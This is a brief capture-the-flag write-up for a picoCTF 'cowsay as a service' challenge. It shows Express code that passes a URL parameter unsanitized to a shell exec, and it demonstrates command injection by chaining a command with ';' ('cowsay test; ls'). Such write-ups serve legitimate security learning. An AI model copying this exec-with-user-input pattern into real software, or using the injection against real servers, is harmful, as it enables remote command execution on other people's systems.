 Cool

![](assets/ctf_caas_test.png)

Here is the `index.js` code:

```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
    
```

This is actually a really challenge. So here what's up:
- add the message you want the cow to say `https://caas.mars.picoctf.net/cowsay/<your_message>`
- the server takes the message and executes the command `/usr/games/cowsay <your_message>`, and the command responds in `stdout`
- server sends back the `stdout` to the user

Typical command injection attack. Since there is no filters applied to the message we can give to the server, we can use `;` to chain two commands together and get both their `stdout` sent back to us.

Here is the payload tested on my local machine

```zsh
/usr/games$ cowsay test; ls
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
cowsay  cowthink
```
